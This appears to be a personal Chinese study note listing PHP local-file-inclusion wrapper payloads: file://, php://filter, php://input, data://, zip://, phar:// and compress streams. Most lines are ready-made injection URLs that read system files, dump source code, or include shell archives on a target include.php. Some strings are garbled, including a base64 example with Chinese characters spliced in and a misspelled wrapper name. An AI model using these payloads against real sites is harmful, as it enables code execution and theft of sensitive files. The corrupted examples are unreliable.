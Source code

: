   ```
  - 1.用途:访问本地系统文件
  - 2.使用条件:allow_url_fopen:off/on  allow_url_include:off/on	 -->file://在两个配置默认为off可正常使用
  - 3.使用方法:file://文件的绝对路径和文件名
  - 4.举例:[?path=file://c:\windows\system32\drivers\etc\hosts]

- `php://filter`

  - 1.用途:常用于读取文件/源码
  - 2.使用条件:`allow_url_fopen:off/on`,`allow_url_fopen:off/on`两个均为`off`情况下是可以使用的
  - 3.使用:[?path=php://filter/read=convert.base64-encode/resource=文件.php]
  - 4.注意:通过指定末尾的文件,可以读取base64`加密`后的文件源码,之后再base64`解码`.虽然不能直接获取到shell,但是能读取`敏感信息`
  - php://filter协议和file://协议的区别:`file`协议`只能`使用`绝对路径`,`fileter`协议相对绝对`均可`

- `php://input`

  - 用途:可以访问请求的原始数据的只读流,将`post请求中的数据作为php代码执行`
  - 使用条件:allow_url_fopen:off/on,allow_url_include:`on`
  - 使用方法:?file=php://input
  - [POST]:<?php phpinfo()?> (执行post data中的内容)

  ![image-20240907163422325](C:\Users\24937\Desktop\学习\笔记\assets\image-20240907163422325.png)

- `data://`

  - 用途:执行接收到的数据中包含的php代码
  - 使用条件:allow_url_fopen:`on`,allow_url_include=`on`
  - 使用方法:?file=data:text/plain,<?php phpinfo();?>
  - --------?file=data:text/plain;base64,PD9waHA工程GhwaWmbygpPz4=
  - --------?file=data://text/plain,<?php phpinfo();?>
  - http://192.168.1.1/include.php?file=data://text/plain,<?=phpinfo();?>

- `zip://`

  - 用途:读取压缩包内的文件(绝对/相对路径)如果包含php代码直接执行
  - 使用条件:allow_url_fopen:off   allow_url_include:off
  - 使用方法:zip://archive.zip#dir/file.txt
  - --------zip://[压缩文件绝对/相对路径]#[压缩文件内的子文件名]
  - --------?file=zip://D:/www/file.zip%23phpcode.txt
  - --------?file=zip://D:/www/file.jpg%23phpcode.txt
  - http://192.168.1.1/include.php?file=zip://shell.zip%23shell.txt

- `phar://`

  - 用途:读取压缩文件内的文件(相对/绝对路径)
  - 使用条件:allow_url_fopen:off     allow_url_include:off
  - 使用方法:?file=phar://D:/phpstudy/www/fileinclude/test.zip/phpinfo.txt
  - --------?file=phar://test.zip/phpinfo.txt
  - http://192.168.1.1/include.php?file=phar://shell.zip/shell.txt

- `compress.bzip2://`

  - 用途:读取压缩包内的文件(相对/绝对路径)	
  - 使用条件:allow_url_fopen:off    allow_url_include:off
  - 使用方法:?file=compress.bzip2://shell.txt.bz2
  - Bzip2 -k shell.txt
  - http://192.168.1.1/include.php?file=compress.bzip2://shell.txt.bz2

- `compress.zlip://`

  - 用途:读取压缩包内的文件(相对/绝对)
  - 使用条件:allow_url_fopen:off    allow_url_include:off
  - 使用方法:?file=compress.zlib://shell.zip#shell.txt
  - http://192.168.1.1/include.php?file=compress.zlib://shell.zip#shell.txt
  ```